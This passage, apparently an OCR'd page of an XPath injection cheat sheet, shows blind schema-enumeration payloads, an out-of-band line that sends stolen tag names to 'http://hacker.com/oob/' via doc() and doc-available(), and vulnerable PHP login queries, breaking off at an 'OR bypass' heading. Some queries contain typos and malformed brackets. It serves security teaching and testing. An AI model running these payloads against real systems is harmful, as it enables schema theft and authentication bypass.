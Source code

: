 Positions
//user[position()=1]/name #pepe
//user[last()-1]/name #mark
//user[position()=1]/child::node()[position()=2] #peponcio (password)

Functions
count(//user/node()) #3*3 = 9 (count all values)
string-length(//user[position()=1]/child::node()[position()=1]) #Length of "pepe" = 4
substrig(//user[position()=2/child::node()[position()=1],2,1) #Substring of mark: pos=2,length=1 --> "a"
```
```
### Identify & stealing the schema

```python
and count(/*) = 1 #root
and count(/*[1]/*) = 2 #count(root) = 2 (a,c)
and count(/*[1]/*[1]/*) = 1 #count(a) = 1 (b)
and count(/*[1]/*[1]/*[1]/*) = 0 #count(b) = 0
and count(/*[1]/*[2]/*) = 3 #count(c) = 3 (d,e,f)
and count(/*[1]/*[2]/*[1]/*) = 0 #count(d) = 0
and count(/*[1]/*[2]/*[2]/*) = 0 #count(e) = 0
and count(/*[1]/*[2]/*[3]/*) = 1 #count(f) = 1 (g)
and count(/*[1]/*[2]/*[3]/[1]*) = 0 #count(g) = 0

#The previous solutions are the representation of a schema like the following
#(at this stage we don't know the name of the tags, but jus the schema)
<root>
    <a>
        
    </a>
    <c>
        
        
        <f>
            
        </f>
    </c>
</root>

and name(/*[1]) = "root" #Confirm the name of the first tag is "root"
and substring(name(/*[1]/*[1]),1,1) = "a" #First char of name of tag `<a> is "a"
and string-to-codepoints(substring(name(/*[1]/*[1]/*),1,1)) = 105 #Firts char of tag `<b>is codepoint 105 ("i") (https://codepoints.net/)

#Stealing the schema via OOB
doc(concat("http://hacker.com/oob/", name(/*[1]/*[1]), name(/*[1]/*[1]/*[1])))
doc-available(concat("http://hacker.com/oob/", name(/*[1]/*[1]), name(/*[1]/*[1]/*[1])))
```
```
## Authentication Bypass

### **Example of queries:**

```
string(//user[name/text()='+VAR_USER+' and password/text()='+VAR_PASSWD+']/account/text())
$q = '/usuarios/usuario[cuenta="' . $_POST['user'] . '" and passwd="' . $_POST['passwd'] . '"]';
```
```
### **OR bypass in user and password (same value in both)**

